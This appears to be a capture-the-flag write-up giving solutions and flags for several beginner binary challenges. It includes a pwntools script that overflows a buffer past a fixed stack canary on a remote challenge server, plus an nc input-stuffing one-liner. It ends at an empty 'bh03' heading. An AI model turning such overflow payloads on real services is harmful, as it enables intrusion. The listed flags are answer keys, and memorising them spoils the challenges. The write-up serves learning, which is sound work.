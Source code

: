 ## be01

The flag was stored inside the binary and could be retrieved with strings

`strings be01 | grep Flag`
flag: `sTriNGS-r-EZ-7819`

## be02

the provided source code printed out the flag when executed

`gcc be02.c; ./a.out`

flag: `c0mpILE-tIME_1822`

## bm01

the flag checks if one character in your input is b and if it is it will give you the flag

`python -c "print('b' * 79)" | nc ggcs-bm01.allyourbases.co 8134`

flag: `c0MinG-Up_bs-8788`


## bh02

simple constant stack canary.  The canary was `:)` and the loop terminated if the byte after it was `f`

```python
from pwn import *

context.terminal = ['termite', '-e']


# p = process('./bh02')
# p = gdb.debug("./bh02")
p = remote('ggcs-bh02.allyourbases.co', 8133)


buf_length = 0x50

payload = b'f' * 0x32 + b':)f'

print(p.recvuntil(":"))

p.sendline(payload)

p.interactive()
```

flag: `caNaRY-CoalMINE-2811`

## bh03
